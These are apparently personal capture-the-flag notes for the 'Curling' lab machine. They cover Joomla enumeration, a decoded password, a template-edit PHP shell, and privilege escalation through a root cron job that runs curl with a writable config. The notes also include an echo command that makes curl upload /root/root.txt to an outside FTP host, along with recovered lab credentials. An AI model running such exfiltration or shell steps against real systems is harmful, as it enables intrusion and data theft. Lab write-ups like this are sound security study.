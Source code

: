 # CURLING

10.10.10.150 

# USER 

Username recovery tells me about email address not being found?

JOOMLA VERSION
```
[+] Joomla version: 3.8.8
```

MSF Joomla scannar found

```
http://10.10.10.150/htaccess.txt
http://10.10.10.150/administrator/index.php
```

Found secret.txt with something that might be a hash?

```
Q3VybGluZzIwMTgh --> Curling2018!
```

When logging in with Floris. You get super user and can log into to /administator

By going to templates changing the ```index.php``` to a shell then clicking "Preview template" you can run php code

Found so tar archive that ended up giving creds:

```
floris
5d<wdCbdZu)|hChXll 
```

# ROOT

By comparing the processes I can see this selection
```
17896 ?        00:00:00 cron
17900 ?        00:00:00 sh
17901 ?        00:00:00 sleep
```


By running "ps -ef" I can see the command run 

```
/bin/sh -c sleep 1;
cat /root/default.txt > /home/floris/admin_area/input
/bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin_area/report
```

-K loads a config file called input. We can place in this config file 

Command for the config
This command uploaded the root.txt file to an external FTP server

```
echo "url = \"ftp://10.10.14.9:2121\"" > ~/admin-area/input ; echo "upload-file = \"/root/root.txt"" >> ~/admin-area/input
```

This uploads the ```root.txt``` to the temp ftp server
